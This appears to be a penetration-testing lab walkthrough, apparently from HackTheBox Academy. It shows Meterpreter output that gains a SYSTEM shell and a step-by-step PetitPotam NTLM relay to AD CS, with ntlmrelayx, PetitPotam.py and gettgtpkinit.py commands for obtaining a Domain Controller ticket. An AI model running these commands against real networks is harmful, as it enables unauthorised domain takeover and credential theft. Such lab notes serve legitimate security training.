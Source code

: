 8. Getting System Shell!
```
[*] Sending stage (200262 bytes) to 172.16.5.5
[*] Meterpreter session 1 opened (10.129.202.111:8080 -> 172.16.5.5:58048 ) at 2022-
03-29 13:06:20 -0400
(Meterpreter 1)(C:\Windows\system32) > shell
Process 5912 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Windows\system32>whoami
whoami
nt authority\system
```



PetitPotam (MS-EFSRPC)
PetitPotam (CVE-2021-36942) is an LSA spoofing vulnerability that was patched in August of 2021. The flaw allows an unauthenticated attacker to coerce a Domain Controller to authenticate against another host using NTLM over port 445 via the Local Security Authority Remote Protocol (LSARPC) by abusing Microsoft’s Encrypting File System Remote Protocol (MS- EFSRPC). This technique allows an unauthenticated attacker to take over a Windows domain where Active Directory Certificate Services (AD CS) is in use. In the attack, an authentication request from the targeted Domain Controller is relayed to the Certificate Authority (CA) host's Web Enrollment page and makes a Certificate Signing Request (CSR) for a new digital certificate. This certificate can then be used with a tool such as Rubeus or gettgtpkinit.py from PKINITtools to request a TGT for the Domain Controller, which can then be used to achieve domain compromise via a DCSync attack.

1. Start ntlmrelayx.py
```
TeneBrae93@htb[/htb]$ sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController
```

2. Running PetitPotam.py from a second terminal window
```
TeneBrae93@htb[/htb]$ python3 PetitPotam.py
```
172.16.5.225 172.16.5.5
- 172.16.5.225 ---> Attack IP
- 172.16.5.5      ---> DC IP

3. Back in the ntlmrelayx.py window, you should see the base64 encoded cert for the DC
![[Pasted image 20230103185401.png]]

4. Request a TGT Using gettgtpkinit.py
```
TeneBrae93@htb[/htb]$ python3 /opt/PKINITtools/gettgtpkinit.py
INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01\$ -pfx-base64 <full_base64_string>
- TGT is saved to dc01.ccache to be used in the next step
```

5. Set the KRB5CCNAME Environment Variable
```
TeneBrae93@htb[/htb]$ export
KRB5CCNAME=dc01.ccache
```

